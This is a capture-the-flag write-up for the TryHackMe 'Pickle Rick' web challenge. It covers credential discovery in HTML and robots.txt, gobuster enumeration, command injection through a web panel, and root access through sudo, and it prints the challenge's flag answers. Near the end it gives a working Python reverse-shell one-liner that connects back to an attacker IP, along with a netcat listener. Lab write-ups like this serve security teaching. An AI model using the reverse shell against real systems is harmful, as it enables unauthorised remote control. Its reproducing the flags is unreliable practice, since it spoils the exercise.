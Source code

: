 ```yaml
---
date: "2024-12-15T19:38:31Z"
title: "Pickle Rick"
summary: "Try Hack Me Pickle Rick Box - Difficulty Easy"
---
```


## Pickle Rick

Here's an overview of the TryHackMe Pickle Rick Challenge:

-   Title: Pickle Rick
-   Difficulty: Easy
-   Summary: This Rick and Morty-themed challenge requires you to exploit a web server
    and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

So let's initiate the box and find the ingredients!

## First Ingredient

First we get to the landing page. Analyzing the html we find the username:

<!-- prettier-ignore-start -->
> ```
> <!--
>
> Note to self, remember username!
>
> Username: R1ckRul3s
>
> -->
> ```
{type="secondary"}
<!-- prettier-ignore-end -->

and an `assets/` url that is fetching a rick and morty image. Exploring the `assets` endpoint we encounter
the following files:

-   Files:
    -   bootstrap.min.css
    -   bootstrap.min.js
    -   fail.gif
    -   jquery.min.js
    -   picklerick.gif
    -   portal.jpg
    -   rickandmorty.jpeg

Lets see the common `robots.txt` file:

<!-- prettier-ignore-start -->
> Wubbalubbadubdub
{type="secondary"}
<!-- prettier-ignore-end -->

We find one of Rick's catchphrase.

Lets try to scan for some dirs with the tool `gobuster`. Using the following command:

`gobuster dir -u http://10.10.191.0 --wordlist wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,html,css,py`

> [!TIP]
> You can get the wordlists from the Kali linux distribution.

The output was the following:

-   /.php (Status: 403) [Size: 276]
-   /.html (Status: 403) [Size: 276]
-   /index.html (Status: 200) [Size: 1062]
-   /login.php (Status: 200) [Size: 882]
-   /assets (Status: 301) [Size: 311] [--> http://10.10.191.0/assets/]
-   /portal.php (Status: 302) [Size: 0] [--> /login.php]

The file `login.php` seems promising. Trying the credentials:

-   Username=R1ckRul3s
-   Password=Wubbalubbadubdub

And we get in on `portal.php`, which has a command input textbox.

Lets try to execute a command. Beginning with `ls .` we get:

-   Sup3rS3cretPickl3Ingred.txt
-   assets
-   clue.txt
-   denied.php
-   index.html
-   login.php
-   portal.php
-   robots.txt

Trying to `cat,head,tail` or even `echo $(<Sup3rS3cretPickl3Ingred.txt)` didn't work. The first because
they are not allowed. And the last didn't respond with any input.

Accessing the file `Sup3rS3cretPickl3Ingred.txt` normally through the url:

<!-- prettier-ignore-start -->
> mr. meeseek hair
{type="primary"}
<!-- prettier-ignore-end -->

Nice we found the first ingredient.

## Second Ingredient

The file `clue.txt` has the content:

<!-- prettier-ignore-start -->
> Look around the file system for the other ingredient.
{type="secondary"}
<!-- prettier-ignore-end -->

and the html on `portal.php` has the base64 string:

`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

Trying to decode it reveals it is recursive. Using the script:

```python
#!/usr/bin/env python
import subprocess
string = "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0=="

while True:
    try:
        p = subprocess.run(
            ["/usr/bin/bash", "-c", f"echo {string} | base64 -d"],
            capture_output=True,
            text=True,
        )
        string = p.stdout
    except Exception as _:
        break
print(string)
```

outputs:

<!-- prettier-ignore-start -->
> rabbit hole
{type="secondary"}
<!-- prettier-ignore-end -->

Seems that this was mocking us...

Exploring the directory we find the following file in `/home/rick/`:

<!-- prettier-ignore-start -->
> second ingredients
{type="secondary"}
<!-- prettier-ignore-end -->

Using python to print the file contents:
`python3 -c "with open('/home/rick/second ingredients') as f: print(f.read())"`

Shows us:

<!-- prettier-ignore-start -->
> 1 jerry tear
{type="primary"}
<!-- prettier-ignore-end -->

Nice we got the second ingredient! One to go!

## Third Ingredient

Now lets try to use a reverse shell to ease the process. We already know that we have python3 so lets try this payload:

```bash
export RHOST="10.0.0.1";export RPORT=9999;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Here `RHOST` should be your TryHackMe VPN IP.
On the my side I listened with:

```bash
nc -lnvp 9999
```

> [!NOTE]
> The `RPORT` should have the same value as the one used in the netcat (`nc`) command.

Then I checked my permission with the command `sudo -l` which showed I had root permissions.

Using the command: `sudo bash` we see a `3rd.txt` in the root directory. Which gives the final ingredient:

<!-- prettier-ignore-start -->
> fleeb juice
{type="primary"}
<!-- prettier-ignore-end -->
